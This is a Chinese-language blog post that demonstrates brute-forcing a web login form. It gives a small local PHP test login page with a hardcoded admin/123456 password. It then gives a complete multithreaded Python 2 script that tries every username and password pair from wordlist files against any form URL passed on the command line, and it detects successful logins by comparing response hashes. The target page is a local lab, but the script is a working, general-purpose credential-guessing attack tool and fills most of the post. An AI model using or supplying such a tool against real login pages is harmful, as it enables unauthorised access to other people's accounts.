 +++
date = "2016-09-05T23:43:22+08:00"
description = ""
draft = false
tags = ["python", "爆破"]
title = "Python实现表单爆破"
topics = ["Python"]

+++

## 接收变量的php脚本如下
> ```php
//代码仅供测试
<?php
    $name = @$_POST['uname'];
    $pass = @$_POST['upass'];

    if (empty($name) or empty($pass)){
        header("location:http://127.0.0.1:921/test/test/index.html");
        exit();
    } else {
        if ($name === 'admin' and $pass === '123456'){
            header("location:http://127.0.0.1:921/test/test/sucess.html");
        } else {
            header("location:http://127.0.0.1:921/test/test/error.html");
            exit();
        }
    }
?>
```

## 爆破表单的python脚本如下
> ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import hashlib
import requests
from Queue import Queue
import threading
from optparse import OptionParser
from time import sleep

lock = threading.Lock()
queue = Queue()
result = []

class FormBlast(threading.Thread):
    """docstring for FormBlast"""
    def __init__(self, *arg):
        super(FormBlast, self).__init__()
        (options,args,queue) = arg
        self.url = options.url
        self.fname = options.fname
        self.fpass = options.fpass
        self.args = args
        self.queue = queue
        self.s = requests.Session()
        self.base_md5 = ''

    def get_payload(self, vname, vpass):
        dict2 = {}
        if self.args:
            for x in self.args:
                (key,value) = x.split('=')
                dict2[key] = value
        dict1 = {self.fname: vname, self.fpass: vpass}
        payload = dict(dict1, **dict2)
        return payload

    def get_md5(self, html):
        md5 = hashlib.md5()
        md5.update(html)
        return md5.hexdigest()

    def get_base_md5(self):
        proxy = {
            'http': 'http://127.0.0.1:8080'
        }
        payload = self.get_payload('1', '1')
        resp = self.s.post(self.url, data=payload)
        resp.coding = resp.apparent_encoding
        html = resp.text
        self.base_md5 = self.get_md5(html)

                        
    def run(self):
        # global result
        self.get_base_md5()
        while not self.queue.empty():
            (user,pwd) = self.queue.get().split(':')
            payload = self.get_payload(user,pwd)
            try:
                resp = self.s.post(self.url, data=payload, timeout=10)
                resp.coding = resp.apparent_encoding
                code = resp.status_code
                html = resp.text
                curr_md5 = self.get_md5(html)

                if curr_md5 != self.base_md5 and code==200:
                    s = "[Ok] User:%s Pass:%s" % (user,pwd)
                    result.append(s)
                    lock.acquire()
                    print s
                    lock.release()
                    self.queue.task_done()
                else:
                    error = "[Error] User:%s Pass:%s" % (user,pwd)
                    lock.acquire()
                    print error
                    lock.release()
                    self.queue.task_done()
            except requests.exceptions.ConnectTimeout:
                self.queue.put(user+':'+pwd)
            except:
                pass
        # print self.result


def get_content(filename):
    data = []
    with open(filename) as f:
        lines = f.readlines()
        for line in lines:
            data.append(line.strip())
    return data

def get_queue(list1, list2):
    for user in list1:
        for pwd in list2:
            queue.put(user+':'+pwd)

def main():
    parser = OptionParser()
    parser.add_option('-u','--url',dest='url',
                        help='Get target url')
    parser.add_option('-n','--fname',dest='fname',
                        help='The user name in the form')
    parser.add_option('-p','--fpass',dest='fpass',
                        help='The pass name in the form')
    parser.add_option('-L','--namefile',dest='namefile',default='namefile.txt',
                        help='The user name dictionary files')
    parser.add_option('-P','--passfile',dest='passfile',default='passfile.txt',
                        help='The password dictionary files')
    (options,args) = parser.parse_args()

    if options.url and options.fname and options.fpass and options.namefile and options.passfile:
        users = []
        pwds = []
        users = get_content(options.namefile)
        pwds = get_content(options.passfile)
        get_queue(users, pwds)

        for x in xrange(1,41):
            blast = FormBlast(options, args, queue)
            blast.setDaemon(True)
            blast.start()
        queue.join()

        sleep(3)
        print "########################################"
        for x in result:
            print x
    else:
        parser.print_help()


if __name__ == '__main__':
    main()
```

## 结果
> {{% fluid_img src="/img/post/form_blast1.png" alt="表单爆破1" %}}
<br /><br />
{{% fluid_img src="/img/post/form_blast2.png" alt="表单爆破2" %}}